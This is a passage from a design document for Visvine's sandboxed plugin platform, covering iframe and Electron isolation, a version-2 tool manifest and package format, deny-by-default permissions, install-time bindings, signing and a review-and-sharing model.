| **Obsidian** | no sandbox | scan every version; scorecards ([Obsidian](https://obsidian.md/blog/future-of-plugins/)) | disclosures that nothing enforces |

### 2.3 Sandboxing foundations across Next.js and Electron

| Option | Isolation | Cost to authors | Verdict |
|---|---|---|---|
| Sandboxed iframe, opaque origin, deny-all CSP, host bridge | strong; residual channels below | none — any React | **keep** (exists) |
| Web Worker + remote-DOM (Shopify) | strongest for UI: no DOM, no navigation, no WebRTC | fixed component set | deferred (§7.6) |
| QuickJS compiled to WASM (Figma's logic sandbox) | a real VM | no DOM | **keep** for `data.js` (exists) |
| Hardened JavaScript / SES compartments ([MetaMask Snaps](https://docs.metamask.io/snaps/learn/about-snaps/execution-environment/)) | good in-process | lockdown rules | not needed beside an iframe |
| ShadowRealm | — | — | TC39 stage 2.7, unshipped ([proposal](https://github.com/tc39/proposal-shadowrealm)) |

- **What CSP cannot stop.** `navigate-to` never shipped
  ([chromestatus](https://chromestatus.com/feature/6457580339593216)), so a
  frame can navigate itself and carry data in the URL. The `webrtc` directive is
  specified but unimplemented in Chromium and Firefox
  ([Chromium](https://issues.chromium.org/issues/40188662),
  [Firefox](https://bugzilla.mozilla.org/show_bug.cgi?id=1783489)), and WebRTC
  exfiltration past `connect-src` is used in the wild
  ([Sansec](https://sansec.io/research/webrtc-skimmer)). §7.2 answers both.
- **Electron.** The checklist: context isolation, process sandbox, validate IPC
  senders, never expose Electron APIs to untrusted content
  ([Electron](https://www.electronjs.org/docs/latest/tutorial/security)).
  `will-frame-navigate` fires for sub-frames and can be cancelled
  ([webContents](https://www.electronjs.org/docs/latest/api/web-contents)) —
  which is how the desktop refuses the one navigation a browser cannot
  (`webRequest.onBeforeRequest` can also name the requesting frame,
  [webRequest](https://www.electronjs.org/docs/latest/api/web-request), but it
  would sit in the path of every request the app makes). Visvine's shell
  already checks the IPC sender's origin and never injects its preload into
  sub-frames.

### 2.4 Manifests and packages

The manifest in §4 borrows, field by field: compatibility ranges (VS Code
`engines`, MCPB `compatibility`); typed install-time settings (MCPB
`user_config`); a reason beside a sensitive permission (Figma's
`networkAccess.reasoning`, [manifest](https://developers.figma.com/docs/plugins/manifest/));
declared datastores (Slack `datastores`); signed, hash-pinned packages (MCPB
`sign`/`verify`, [CLI](https://github.com/modelcontextprotocol/mcpb/blob/main/CLI.md));
license, repository and screenshots (OpenAI `plugin.json`). Bindings are new;
Notion's page picker is the nearest precedent.

### 2.5 Review and monitoring evidence

- **Static rules work on known shapes.** GuardDog (Semgrep + YARA rules) had the
  best F1, 93.3%, in a 2026 benchmark of npm malicious-package detectors
  ([arXiv](https://arxiv.org/html/2603.27549v1),
  [OpenSSF](https://openssf.org/blog/2025/03/28/guarddog-strengthening-open-source-security-against-supply-chain-attacks/)).
- **LLM review finds novel malware but misfires.** MalPacDetector found 39
  unknown malicious packages
  ([IEEE TIFS](https://ui.adsabs.harvard.edu/abs/2025ITIF...20.6279W/abstract));
  accuracy in the 80s is typical
  ([ICSE 2025](https://conf.researchr.org/details/icse-2025/icse-2025-research-track/105/Leveraging-Large-Language-Models-to-Detect-npm-Malicious-Packages)).
  So a model may add findings, never clear them.
- **Labels users see:** Figma's network label (Unrestricted / Restricted / No
  access, [Figma](https://help.figma.com/hc/en-us/articles/360042293394-Publish-plugins-to-the-Figma-Community));
  Anthropic's Community / Verified; Claude's "user-generated and unverified";
  Airtable's "not reviewed by Airtable"
  ([Airtable](https://support.airtable.com/docs/airtable-extensions-overview)).

### 2.6 Mobile store rules

Apple 2.5.2 forbids downloaded code that changes an app's features; 4.7 admits
HTML5 mini apps only with privacy and content controls (4.7.1), per-instance
consent before sharing data with one (4.7.3), a public index with universal
links (4.7.4) and age gating (4.7.5)
([Apple](https://developer.apple.com/app-store/review/guidelines/)). Google
Play allows JavaScript in a WebView but holds the app responsible for what it
does ([Google Play](https://support.google.com/googleplay/android-developer/answer/16559646?hl=en)).

---

## 3. Proposed architecture

### 3.1 Principles

1. **One runtime, one door.** Every tool renders in the same sandboxed iframe on
   the tools origin, in the browser and in the desktop shell, and reaches
   Visvine only through the bridge. The desktop adds enforcement, never
   capability.
2. **Runs as the viewer; declared reach only narrows.** Unchanged from today. A
   tool never holds authority of its own, its author's, or the space's.
3. **What runs is what was reviewed.** The server compiles from source; a
   version is an immutable, content-addressed snapshot; its verdicts are
   re-read on every frame mint and every bridge call.
4. **A tool belongs to its space.** Global is a second act: a space admin asks,
   the author co-signs, Visvine reviews.
5. **Declare needs, bind at install.** A tool says what kind of thing it needs;
   each space answers with its own folders, types and connectors.
6. **Machines block and flag; people approve.** An automated check may refuse or
   raise a finding. Only a person approves — the one exception stays the
   trusted-publisher rule for re-publishes whose reach and surfaces did not move.
7. **Structured facts are a row; the note is prose.** A tool's reach, bindings,
   surfaces and targets move into rows written through one service, as agents
   did (`lib/agents/shared/agentConfig.ts`); the index note keeps title,
   description, tags and docs. AGENTS.md already names tools as next in line.
8. **Web and desktop only, enforced by the server** — not by hiding UI.
9. **The host draws the frame; the tool draws the content.** Navigation,
   title, actions menu and every state (loading, error, degraded, suspended,
   draft, first use) are the app's own components, identical for every tool.

### 3.2 Components



What is new in this picture, against today: the client-class check, the
verdict check on every call, telemetry, and the data layers behind the gate.

### 3.3 How a tool reaches structured data, unstructured data and the context layer



| Layer | What it is | Reach today | Proposed | Gate (in order) |
|---|---|---|---|---|
| Notes | context notes | `context.list/read/search/write/append` | + `context.links` | client class → permissions.context (globs, bindings) → viewer grants → sealed dirs |
| Files & links | resources | none | `resources.list/get/read/blob` | permissions.resources → `requireVisibleResource` |
| Records | typed nodes with tracked fields; notes declaring a member-invented type | none — `perimeter.types` only feeds requirements and surfaces | `records.query/get/update` over both (3.3.1) | permissions.records (types, fields) → node edit gate or note write gate |
| Tool collections | per-event data a tool produces | `state` only: 64 KB × 100 keys, shared by every viewer | `collections.*` | declared schema → row rules (own/any/admin) → quotas |
| External systems | connectors | `connectors.call` with code or action | same; global tools action-only, connector bound at install | permissions.connectors → connector perimeter |
| Actions | the Actions registry | none | `actions.run` over a fixed allowlist | declared actions → `runAction` scope → principal; `space_id` forced |
| AI | the space's model; the judge | none | `ai.complete`, `ai.decide` | permissions.ai → space model + budget cap → judge allowance |
| Agents | agent runs | `agents.run` | unchanged | `canTriggerRun` + `claimManualRun` |
| UI services | host-drawn dialogs, downloads | `navigate` only | `ui.toast/confirm/download/openRecord/openResource` | permissions.ui for downloads |

Two placement rules from `docs/data-architecture.md` decide where tool data
goes, and the API follows them: anything a person could edit by hand is a
**note or record** (tier 1); anything written once per event — a vote, a
check-in, a form response — is a **collection row** (tier 2 ledger). A tool may
never write one note per event.

#### 3.3.1 Records: one structured layer for every type

The brief assumes structured datasets exist. They do for node-backed kinds
(people, organisations, events, resources), and not for the types a space
invents — which are exactly the ones a tool is usually built for. The fix is a
platform change that tools, agents and the Directory all gain from:

1. **Fields for every type.** `NodeTypeConfig.fields` (tracked fields) applies
   to a note-scoped type too; for those the values are frontmatter keys on the
   notes that declare the type. Same admin UI (`useTrackedFields`), same kinds.
   A note type gets its own **reserved keys** — `type`, `title`, `node`,
   `description`, `tags`, `status`, `share`, `share_as`, `home`, `holds`,
   `hidden`, `version` — because the platform already reads them: a *Deal* field
   called `status` set to `rejected` would down-rank the note in search and flag
   it to agents (`lib/notes/shared/lifecycle.ts`).
2. **A projection to query them.** `context_record_fields` (space, owner key,
   path, type, key, typed value columns, an *invalid* flag), one more call in
   `applyProjections` and `reconcileContext` (`lib/notes/projections.ts`),
   pruned with the note — the data-architecture answer to "queried by predicate,
   range or order". Values are checked **in the projection**, not by refusing
   note writes (any note writer can set frontmatter): a value that fails its
   field's kind is projected as invalid and shown as such. Adding or changing a
   field writes no note, so it queues a re-projection of that type's notes.
3. **The Directory's Table shows invented types**, rows being the notes that
   declare them, with the same `columnsForType`.
4. **One write door for a field**, `setFields`: only keys declared as fields
   of the record's type; each value parsed on the server by the parser the
   table already uses in the browser (`parseCellInput`); the Directory's
   visibility rule plus the note write gate, not membership alone. Behind it,
   `PATCH /api/nodes/<id>` for a node-backed record (after §9.1's fix) and a
   frontmatter merge through `writeGated` for a note. A new `set_fields` action
   (agents and MCP can finally write tracked fields, as AGENTS.md promises) and
   `records.update` both call it.
5. **`records.query`** takes a type, predicates on fields (equals, in, range,
   contains), an order and a cursor, and returns only rows the viewer can read
   (the visibility lens for notes, the Directory's rule for nodes).

### 3.4 One bridge call



### 3.5 Shared foundations for Next.js and Electron

The desktop app is a thin shell that loads the web app, so web and desktop
already run the same tool code. The plan keeps it that way and makes the shared
pieces into packages a CLI and a starter repo can use too:

| Package | Holds | Used by |
|---|---|---|
| `packages/tool-protocol` | the wire protocol and its validators (`lib/tools/protocol.ts` today), the manifest schema, the permission grammar (`lib/tools/perimeter.ts`), bindings resolution — all pure | server, host, kit, CLI, tests |
| `packages/tool-kit` | the in-frame SDK (`features/tools/kit` today), its components rebuilt on `@visvine/ui` (§3.6); published to npm as types plus a local mock runtime | frame vendor bundle, starter repo |
| `packages/tool-cli` | `visvine-tool dev · check · push · pack · publish` | authors, CI |

The frame runtime stays a sandboxed iframe. A Web Worker + remote-DOM runtime
(Shopify's model) closes more exfiltration channels but limits authors to a
fixed component set; it is recorded as a later option (§7.6) if monitoring
shows the iframe is being abused, not built now.

The desktop shell (Electron 43) adds enforcement a browser cannot:

- **`will-frame-navigate`** refuses any navigation of a tool frame after its
  first load — the one channel CSP leaves open, closed outright. The frame's
  origin is opaque, so it is matched by its URL (the tools origin, or the
  `/api/tools/runtime/frame` path when `TOOLS_ORIGIN` is unset). A
  `webRequest` filter is not needed: CSP already governs a frame's
  sub-resources, and a listener there would sit in the path of every request
  the app makes.
- **`setWebRTCIPHandlingPolicy('disable_non_proxied_udp')`** on the window
  narrows WebRTC to proxied TCP; the app itself uses no WebRTC.
- The permission handler already denies the frame everything, and the preload
  bridge is never injected into sub-frames; both get a test.

These protect desktop users on an updated build only. No Electron API is ever
exposed to a tool (Electron security checklist item 20), and tools get no
desktop-only capabilities, so a tool behaves identically in both clients.

### 3.6 Tools live in the rail — the Package page is each tool's own page

There is **no separate tools page**: no Tools row that opens a hub with a
switcher inside it. The system is built into the space's existing rail and
page chrome. Installing a tool adds it to the rail as its own row, exactly
like Directory and Channels; you move between tools the way you move between
those. What each tool gets is a standard way to look and navigate *on its own
page*:

```
┌ rail (today's) ┐┌ shell band (today's) ────────────────────────────────────┐
│ Directory      ││ Board   Forecast   Settings              New deal    ⋯  │
│ Channels       │├──────────────────────────────────────────────────────────┤
│ Deals      ◀── ││                                                          │
│ Hiring         ││          the tool's frame — its content only             │
│ Polls          ││                                                          │
│ More           ││                                                          │
└────────────────┘└──────────────────────────────────────────────────────────┘
   each tool is its own          the Deals tool's own sections, on the band
   rail row, placed by admins    it already shares with every other page
```

- **The rail is the switcher.** Each installed tool is a row — label and icon
  (the app's set, or the tool's sanitised `icon.svg`) — among the built-in
  rows, placed, locked and tucked into More by admins in Console → Tools. This
  exists today; the plan keeps it and adds nothing between the rail and the
  tool.
- **A tool's own navigation, if it wants one, comes in one of two forms**, both
  drawn by the host in the app's own style, declared once in `surfaces.nav`
  (§4.3):
  - **Top band tabs** (`style: tabs`, the default) — the tool's sections on the
    shell band, exactly as the Space Console draws its sections today:
    `ConsoleShell` portals its tabs and a trailing item into the band's
    `shellTabsHost` / `shellTrailHost` from outside any pane shell and keeps the
    section in `?section=` with `router.replace`
    (`features/admin/components/console/ConsoleShell.tsx`). A tool page does the
    same — `/s/<space>/t/<slug>?section=forecast` — so a tab press never
    remounts the page, re-mints the frame token or reloads the frame; routing,
    `proxy.ts` and `SPACE_ROUTE_ROOTS` are untouched. The three near-identical
    band tab bars (Console, pane, page) become one shared component rather than
    gaining a fourth.
  - **A side list** (`style: side`) — the sections as a list in a panel beside
    the tool's content, the way the channel list sits beside a channel and the
    context tree beside a note: the same panel, spacing and states as the app's
    own. For a tool whose sections are many or change (projects, boards).
  - Either way the frame learns the active section from `visvine:init` / a new
    `visvine:route` message and changes it with `ui.navigate({ section })`.
    With one section or none, nothing is drawn.
- **Consistency is offered, never imposed.** The kit is rebuilt on
  `@visvine/ui` — the app's own components, the sidebar and panel lists
  included, with their compiled stylesheet shipped in the vendor bundle —
  instead of keeping a second component set, so AGENTS.md's "`@visvine/ui` is
  the only shared UI" stays true. A **component catalog** generated from
  `packages/ui` (each component, its props, when the app uses it, a snippet,
  and the design rules in brief) goes into the context of every authoring path
  (§6): the MCP SDK, the AI builder, the Workbench and the starter repo. So a
  tool built without instructions looks like the app; a person who wants their
  own look asks for it and iterates, and nothing stops them.
- **Band actions.** Up to two declared buttons (`surfaces.actions`, e.g.
  *New deal*) sit at the band's trailing end; pressing one posts a new
  `visvine:action { id }` message to the frame. Last comes the host's **⋯**
  menu, the same for every tool: About · Report, plus Manage for admins and
  Edit for its authors.
- **About is the package page — a view of the tool, not a page in the rail.**
  Opened from the ⋯ menu: description; release and changelog; publisher and
  provenance; what it can do, in words, with this space's own bound folders;
  its egress ("None", or the named connector); where it is installed; its
  latest checks; Export. The same view renders for a tool that is *not*
  installed, reached from Discover's Tools tab — Discover already lists Spaces
  and Events to find and join; it gains Tools to find and install — with
  Install where Manage would be. That is how a tool is discoverable,
  installable and packageable without a tools page of its own.
- **The admin-only lock means the tool, everywhere.** A row an admin locks
  (`featureConfig.adminOnly['tool:<slug>']`) hides the rail row, the page, and
  the tool's type-page tabs from members, and the bridge refuses them — today
  only the page checks it, in the browser, and type tabs ignore it.
- **The host draws every state**: loading, error card (exists), degraded
  banner (exists), *Suspended by Visvine*, *Unpublished draft*, and the
  first-use notice for a tool from outside the space (§5.5).
- **What stays the app's, and what is the tool's.** The rail row, the band,
  the ⋯ menu and the states above are always the app's — they carry
  navigation, provenance and safety. Everything inside the frame is the tool's
  to shape. The design lints (a painted page background, fixed positioning,
  hardcoded colours, a top tab strip that duplicates `surfaces.nav`) stay what
  they are today: warnings that suggest, never errors that block.

A tool shown as a tab on a type's page (today's `surfaces.types`) keeps that
form: it gets the tab, not a rail row.

---

## 4. Tool manifest and package specification

### 4.1 Where a tool's facts live

| Where | Holds | Written by |
|---|---|---|
| `<folder>/index.md` (note) | `type: tool`, title, description, tags, docs | anyone who can write the folder |
| `<folder>/ui.md`, `data.md`, `icon.md`, `src/*.md` (notes) | sources, one fenced block each (the store only accepts `.md`) | same |
| `app_tool_configs` row (new) | permissions, bindings, surfaces, settings schema, platforms, sdk range, dependencies, collections | `configureTool` — one service, per-field gates, every change in `app_tool_config_changes` |
| `app_tool_installs` row (exists, grows) | the version pinned, placement, type claims, **binding values, setting values**, consent record | install sheet / `bind_tool` — admins only, audited |
| `app_tool_versions` row (exists) | the composed manifest, sources, bundles, digests, verdicts | `publishTool` |
| `.vvtool` package | the same composed manifest + files | `export_tool` / `visvine-tool pack` |

`composeTool` (like `composeAgent`) renders row + note into one manifest for
MCP reads, packages and review. A v1 tool whose perimeter still sits in
frontmatter is **adopted** by the store hook — folded into the row, stripped
from the note — exactly as `hooks.ts#adoptNoteConfig` does for agent briefs.

The agent precedent comes with five traps, each with its answer:

1. **Publish reads the note today** (config parsed from the index, `version:`
   written back, `registry.ts:512-520, 703`). It reads `composeTool` instead,
   and old version rows stay readable forever (`target.ts#configOfJson`).
2. **`share:` does two jobs** — room installs (`share.ts`) and the rooms'
   read-only `parent/` view (`federation.ts`). It stays in the note, or is
   rendered back into it the way `briefs.ts` overlays an agent's record.
3. **Hooks fire on note writes only** (`lib/tools/hooks.ts`), so
   `configureTool` triggers the rebuild and the share sync itself.
4. **A write gate keeps reach out of frontmatter** once it lives in the row,
   like `contextService#briefRunKeyDenial`; preview and `read_tool` read the
   row.
5. **The version diff must cover every field that grants or places.** Today it
   compares the five v1 lists (`perimeter.ts#diffPerimeter`) and the
   trusted-publisher rule auto-lists whatever the diff does not see
   (`registry.ts#shouldAutoApprove`). A pure test enumerates the manifest's
   permission, binding, surface and collection fields and fails when one is
   missing from the diff — and it lands before any new family does (M3).

### 4.2 Package layout

```
deal-pipeline.vvtool            zip
├── visvine-tool.json           the manifest (4.3)
├── README.md                   → the index note's body
├── CHANGELOG.md                → release notes (top section)
├── LICENSE
├── icon.svg                    optional, sanitised (lib/tools/iconSvg.ts)
├── src/
│   ├── ui.tsx                  entry; default-exports the component
│   ├── board.tsx               further modules, relative imports only
│   └── data.js                 plain script for the isolate
└── .visvine/                   written by Visvine on export, never by authors
    ├── CHECKSUMS               sha256 per file
    └── SIGNATURE               Ed25519 over CHECKSUMS + manifest
```

Rules: sources only — a pre-built or minified bundle is refused, because what
runs must be what was reviewed; the server compiles. `fixtures/`, `node_modules/`
and dotfiles other than `.visvine/` are ignored on import. Limits keep today's
numbers (512 KB source, 1 MB bundle) and add 2 MB per package.

Multi-file sources live as notes under the tool's folder (`src/board.md`
holding `board.tsx`), which widens two things that today only know the four
fixed files: the bridge's seal must treat **any** path inside a tool folder —
found by walking up to the nearest index that declares `type: tool`, not just
the immediate parent — as a tool's source (`bridge.ts:487-493` checks only the
parent), and the compile hook must rebuild on a write to any of them
(`hooks.ts` matches index, ui, data and icon only).

### 4.3 Manifest

```json
{
  "$schema": "https://visvine.com/schemas/tool-manifest-2.json",
  "manifestVersion": 2,
  "name": "deal-pipeline",
  "title": "Deal Pipeline",
  "description": "A kanban over the space's deals.",
  "release": "1.3.0",
  "license": "MIT",
  "sdk": "^2.0.0",
  "platforms": ["web", "desktop"],
  "entry": { "ui": "src/ui.tsx", "data": "src/data.js" },
  "icon": "icon.svg",
  "repository": "https://github.com/acme/deal-pipeline",
  "dependencies": { "date-fns": "3.6.0" },
  "surfaces": {
    "rail": { "label": "Deals", "icon": "kanban" },
    "nav": {
      "style": "tabs",
      "sections": [
        { "id": "board", "label": "Board" },
        { "id": "forecast", "label": "Forecast" },
        { "id": "settings", "label": "Settings", "admin": true }
      ]
    },
    "actions": [{ "id": "new-deal", "label": "New deal" }],
    "types": [{ "type": "$deal", "mode": "page" }]
  },
  "settings": {
    "stages":   { "type": "string[]", "label": "Stages", "default": ["Lead", "Qualified", "Won", "Lost"] },
    "currency": { "type": "string", "label": "Currency", "enum": ["NZD", "AUD", "USD"], "default": "NZD" }
  },
  "bindings": {
    "deal":  { "kind": "type", "label": "Deal type", "suggest": "deal", "fields": ["stage", "value", "owner"] },
    "notes": { "kind": "folder", "label": "Deal notes", "suggest": "deals/" },
    "files": { "kind": "folder", "within": "resources/", "label": "Deal files", "optional": true },
    "crm":   { "kind": "connector", "label": "CRM", "recipe": "hubspot", "optional": true }
  },
  "permissions": {
    "context":    { "read": ["$notes/**", "people/*/index.md"], "write": ["$notes/**"] },
    "records":    { "read": ["$deal", "person"], "write": [{ "type": "$deal", "fields": ["stage"] }] },
    "resources":  { "read": ["$files/**"] },
    "connectors": [{ "use": "$crm", "actions": ["search_deals"] }],
    "agents":     [],
    "actions":    ["list_events"],
    "ai":         { "complete": true },
    "ui":         { "download": true }
  },
  "collections": {
    "votes": {
      "schema": {
        "type": "object",
        "properties": { "deal": { "type": "string" }, "score": { "type": "integer", "minimum": 1, "maximum": 5 } },
        "required": ["deal", "score"]
      },
      "read": "all", "write": "own", "maxRows": 50000
    }
  },
  "tags": ["crm", "kanban"],
  "screenshots": ["media/board.png"]
}
```

| Field | Required | Rule |
|---|---|---|
| `manifestVersion` | yes | `2`. A v1 tool (frontmatter perimeter) is read as v2 with no bindings. |
| `name` | yes | `^[a-z0-9][a-z0-9-]{0,62}$` (today's `TOOL_NAME_RE`). The folder's name; never renamed. |
| `title`, `description` | title yes | ≤ 80 and ≤ 280 characters. |
| `release` | yes | Semver, set by the author, shown on About and in the changelog. Deliberately not `version`: that name already means the registry's integer — numbered from 1, never repeated, written back into the index note on publish (`registry.ts:512-520`) — and the two must not collide. An exported manifest carries `version` read-only. |
| `license` | for global | An SPDX id or `proprietary`. |
| `sdk` | yes | A semver range of `@visvine/tool-kit`; checked against the protocol versions the server speaks. |
| `platforms` | yes | A non-empty subset of `web`, `desktop`. Any other value — `mobile` included — fails compatibility. |
| `entry.ui` | yes | Default-exports a React component. `entry.data` optional. |
| `repository`, `homepage` | no | Shown on About; never fetched by the server. |
| `dependencies` | no | Exact versions from the curated allowlist (§6.4). |
| `surfaces.rail`, `surfaces.types` | no | Today's rail row and type page/tab claims; a type may be a binding. |
| `surfaces.nav` | no | The tool's own navigation, drawn by the host (§3.6): `style` is `tabs` (the shell band, default) or `side` (a side list like the app's own panels); `sections` each have an `id` (`^[a-z0-9-]{1,32}$`), a `label` (1–3 words) and optionally `admin` to show only to admins. At most 7 tabs; a side list may hold more. |
| `surfaces.actions` | no | At most 2 band buttons: `id`, `label`. |
| `settings` | no | Typed install-time configuration an admin sets on the install sheet (`string`, `number`, `boolean`, `string[]`, `enum`, `default`, `required`) — readable by the tool as `install.settings`. Never secrets: a credential belongs to a connector. |
| `bindings` | no | 4.5. |
| `permissions` | no | 4.4. Absent or empty means none: the tool can only draw its own UI. |
| `collections` | no | Named JSON-Schema collections with read/write rules and a row cap. |
| `tags`, `screenshots` | no | ≤ 8 tags (today's grammar); screenshots are package files, uploaded to media on import (today's same-origin `preview` rule). |
| `publisher` | never | Assigned by the registry; a manifest that sets it is refused. |

### 4.4 Permissions

Every family is deny-by-default, only narrows what the viewer may already do,
and is checked **before** the viewer's grants so a refusal says whether the
tool or the viewer lacks the reach (today's `perimeter` vs `forbidden`).

| Family | Grammar | Unlocks | Checked with |
|---|---|---|---|
| `context.read` / `write` | note globs (today's grammar) or `$binding` prefixes | `context.list/read/search/links`, `write/append` | `refuseRead`/`refuseWrite`, then contextService grants; writes to `tools/`, `agents/`, `connectors/`, `models/` stay sealed, and **reads** of them now need a glob that names them — `**` never reaches configuration, as a bare `*` already names no agent |
| `records.read` / `write` | type names or `$binding`; writes list fields | `records.query/get`, `records.update` | `setFields`: the node edit gate behind `PATCH /api/nodes/<id>`, or the note write gate for a note-backed record |
| `resources.read` | resource-folder globs or bindings | `resources.list/get/read/blob` | `requireVisibleResource` |
| `connectors` | names or bindings; global tools must name `{ use, actions }` | `connectors.call` | `loadConnector(…, { personal: false })` |
| `agents` | names, `prefix-*`, bindings | `agents.run` | `canTriggerRun`, `claimManualRun` |
| `actions` | names from `TOOL_ACTIONS`, a fixed allowlist in code | `actions.run` | `runAction` scope + principal, `space_id` forced to the install's space |
| `ai` | `{ complete, decide }` | `ai.complete`, `ai.decide` | the space's model and budget cap; the judge's per-space allowance |
| `ui` | `{ download }` | `ui.download` | the host names the file and asks before saving (the sandbox has no `allow-downloads`) |

`actions.run` is `runAction` with a caller `via: 'tool'` (a new value beside
`mcp`, `agent` and `api`, also added to the resource access log's `via`) and the
narrowest scope set, the way agent runs build theirs (`lib/agents/tools.ts`).
Four rules keep it from becoming a way around everything else:

1. **The bridge injects `space_id`** — the install's space — and refuses a call
   that names another. `runAction` has no such hook, and reads that omit it
   search every space the viewer belongs to.
2. **No action whose data a bridge method already gates.** An action runs with
   the viewer's full reach and never sees the tool's permissions, so one
   allowlisted `read_context` or `list_resources` would silently cancel
   `permissions.context` and `permissions.resources`.
3. **Each allowlisted action declares its tenant-addressing arguments**
   (`resource_id`, `event_id`, `channel_id`, …), and the bridge checks each
   against the install's space and the tool's permissions before the action
   runs.
4. **Nothing that creates or changes what runs or governs**: spaces, agents
   (create, activate, configure), tools, installs, connectors and their
   secrets, aliases, machines, delegation — today's sealed-folder rule, applied
   to actions.

`TOOL_ACTIONS` therefore starts small — events (`list_events`, `update_event`)
and sharing a permitted resource into a channel (`share_resource`) — and grows
one audited entry at a time.

For a global tool, literal globs are allowed only inside namespaces every space
shares (`people/`, `events/`, `resources/`, …, per
`lib/notes/shared/namespaces.ts`); everything else must be a binding. That is a
compatibility check (§6.5), because a literal `deals/**` means nothing in a
space that files deals elsewhere.

`state` needs no permission. It gains a `scope`: `user` (per viewer, the new
default in SDK v2) or `install` (today's shared behaviour).

### 4.5 Bindings

A binding is a named slot the installing space fills:

| Kind | Bound to | Constraints |
|---|---|---|
| `folder` | a folder of the space's own | never a sealed or reserved namespace; `within` narrows (e.g. `resources/`) |
| `type` | a type of the space, node-backed or invented | `fields` must exist as tracked fields or type fields (§3.3.1) |
| `connector` | a connector by name | `recipe` filters the picker; `optional` allows none |
| `agent` | an agent by name | `optional` allows none |

- **In the source space** every binding is bound to its `suggest` automatically,
  so an author never binds their own tool.
- **At install** the admin binds each slot from pickers filtered by kind (and
  recipe). An unbound optional slot runs degraded exactly as a missing
  connector does today (`degraded` error code, `visvine.degraded` in the kit).
- **At runtime** `resolveBridgeTarget` substitutes the install's bindings into
  the version's permissions, so the perimeter the gate enforces is concrete.
  Review reads the abstract form; the install consent sheet shows the concrete
  one ("reads and edits *Sales / Pipeline*").
- **Bindings are install data**, stored on the install row, changed only by an
  admin through `bind_tool` or the install sheet, and audited.

### 4.6 Versions, compatibility, upgrades

- An install pins a version (today). New versions are offered, never applied.
- An upgrade whose permissions, bindings or surfaces grow needs the installing
  admin's consent to the diff; one that only shrinks them or changes code can
  be applied in one press (today's flow already shows the perimeter diff).
- **Shared-down installs follow the house.** Share-down moves rooms onto the
  house's version with no room consent today (`share.ts#syncSharedToolInstalls`),
  and that stays the rule — `share:` is the whole grant, and the house admin who
  set it consents for the rooms it names. So a house upgrade that widens reach
  asks the house admin to consent *for the rooms too*, naming them. A shared
  install's bindings resolve in the room: to the binding's `suggest` if the room
  has it, otherwise the slot runs degraded until a room admin binds it.
- `PROTOCOL_VERSION` becomes 2 with the new method families. The host keeps
  answering v1 frames, so every tool built today keeps working unchanged.
- The server supports the current and previous kit major; a version outside
  that range fails compatibility on submission and shows a banner when
  installed.

### 4.7 Integrity and provenance

- Only the server compiles, from the submitted sources, with the kit and
  dependency versions pinned in the version row. Bundle URLs are already
  content-addressed.
- Each version stores per-file SHA-256 digests and a package digest.
- **Only listed versions are signed.** An export of a globally listed version
  carries `.visvine/SIGNATURE` (Ed25519, key in the deployment key ring beside
  `lib/crypto/secrets.ts`), and importing it shows "published by *Publisher* as
  1.3.0". Every other export is unsigned and names no space — a private space's
  or a secret room's name must not travel inside a file, and a signature would
  read as an endorsement nobody gave. Either way an import is new code and
  goes through the whole pipeline.

---

## 5. Permissions and sharing model

### 5.1 The ladder



| Rung | Who can run it | Installable where |
|---|---|---|
| **Draft** (working copy) | in preview, with the lesser of its authors' and the viewer's reach (5.2) | nowhere |
| **Space** (approved version) | members, once an admin installs it | this space and its sub-spaces |
| **Family** (shared down) | members of the named rooms | installed into those rooms automatically (today's `share:`) |
| **Global** (listed) | members of any space whose admin installs it | any space |

### 5.2 Who may do what

| Act | Member | Author | Space admin | Visvine reviewer |
|---|:-:|:-:|:-:|:-:|
| Create a tool, edit its working copy | ✓ | ✓ | ✓ | |
| Preview a draft | ✓ with an explicit Run (5.2) | ✓ | ✓ with an explicit Run (5.2) | |
| Publish to the space (pending) | | ✓ | | |
| Publish and approve in one act | | | ✓ | |
| Approve / reject a member's version | | | ✓ | |
| Install, place on the rail, claim type pages, bind (**the space's shape**) | | | ✓ | |
| Share down to sub-spaces | | | ✓ | |
| Request a global listing | | | ✓ | |
| Co-sign a global listing of their own tool | | ✓ | | |
| Approve / reject / suspend / revoke a listing | | | | ✓ |
| Revoke a version in their own space | | | ✓ | |
| Install a global tool | | | ✓ | |
| Report a tool | ✓ | ✓ | ✓ | |

Changes from today, each small:

- **A draft never runs with more reach than its authors have.** Today anyone
  who can read the index note runs the unreviewed working copy under their own
  grants the moment the page opens — so a member can send an admin the preview
  link (the page's Copy link invites it, `ToolPreview.tsx:170`) and run
  unreviewed code with the admin's reach. Limiting preview to people who can
  write the folder would not help: an admin can write every folder
  (`permissions.ts#principalCanWrite`). Instead a preview's principal becomes
  the **intersection** of the viewer and every person who has written the
  draft's code since its last approved version (from the source notes'
  revisions): a read or write is allowed only if all of them could make it. And
  for anyone who is not one of those authors the preview does not start by
  itself — it shows who last edited it and what it reaches, and runs on
  **Run**.
- **The admin-only lock is enforced on the server**, in `resolveBridgeTarget`,
  and means the tool everywhere (§3.6).
- **Author co-signs a global listing.** Today an admin can list a member's tool
  with no say from its author. The listing request waits for the author's
  consent and names them.

### 5.3 Adding a tool to the space's shape

"Adding to the shape" is an admin placing an approved tool into what the space
*is*: installing it, giving it a rail row and position, claiming a type page or
tab, binding its slots, setting its settings, and (optionally) sharing it into
rooms. It is the same act whether the admin wrote the tool or approved a
member's: an admin's own publish is already the approval, so for them it is
**publish → install** in one flow.

Today none of this has a UI — `POST /api/spaces/[spaceId]/tools` has no
caller, and an admin installs only over MCP. The plan adds one **install
sheet**, opened from the tool's About view (or from Approvals right after
approving): where it sits on the rail (or tucked into More), which type
page or tab it claims, each binding's picker, each setting, and Install.
Placement afterwards stays in Console → Tools, which already drags, locks and
hides rows.

### 5.4 Going global

1. A space admin requests a listing for a version the space already approved.
2. The author co-signs (automatic when the admin is the author) and picks a
   license.
3. The pipeline runs the global stages (§6.5): the compatibility rules for
   portability, the security scan, the dynamic run.
4. A Visvine reviewer approves, rejects with a note, or asks for changes.
5. The listing appears in the Tools directory under its publisher (the space).

The listing gets its own row (`app_tool_listings`: id, current key, publisher
space, author, license, status, verified flag, counts), so a listing can be
transferred between publishers without breaking the installs that follow it.
Trusted publishers move from the `TOOLS_TRUSTED_PUBLISHERS` env to a
**verified publisher** flag Visvine sets, with the same auto-approve rule
(unchanged permissions and surfaces), which still runs every automated check.

### 5.5 Installing a global tool

The admin sees one sheet, and pressing Install is the consent:

- publisher · verified · reviewed on *date* · installs · license
- what it can do, in words, with each binding picker inline — "Reads and edits
  notes in **[Deal notes ▾]** · edits *Stage* on **[Deal ▾]** records · calls
  **[HubSpot ▾]** (*search deals*) · uses the space's AI"
